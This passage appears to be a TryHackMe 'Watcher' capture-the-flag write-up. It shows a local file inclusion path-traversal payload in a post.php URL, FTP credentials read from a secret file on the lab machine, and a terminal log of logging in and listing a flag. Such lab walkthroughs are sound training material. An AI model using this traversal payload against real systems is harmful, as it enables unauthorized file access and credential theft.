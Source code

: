 
![](Tryhackme/Linux/Watcher/attachments/Pasted%20image%2020240415190803.png)


## Confirmed LFI


Now need to escalate to get Shell

rember that /secret_file_do_not_read.txt file found in robots.txt which was inaccesible now let's try to access

![](Tryhackme/Linux/Watcher/attachments/Pasted%20image%2020240415192641.png)

### That secret file

>found in = </post.php?post=../../../var/www/html//secret_file_do_not_read.txt> 

```bash
 Hi Mat,

The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files.

Will

----------

ftpuser:givemefiles777
```

## Got cred of ftp  let's try to access

#### logged into FTP

```bash

┌──(dedrknex㉿kali)-[~/oscp/Tryhackme/watcher_10.10.65.41]
└─$ ftp $ip
Connected to 10.10.65.41.
220 (vsFTPd 3.0.3)
Name (10.10.65.41:dedrknex): ftpuser        
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||45651|)
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 Dec 03  2020 files
-rw-r--r--    1 0        0              21 Dec 03  2020 flag_2.txt
226 Directory send OK.
ftp> 

```
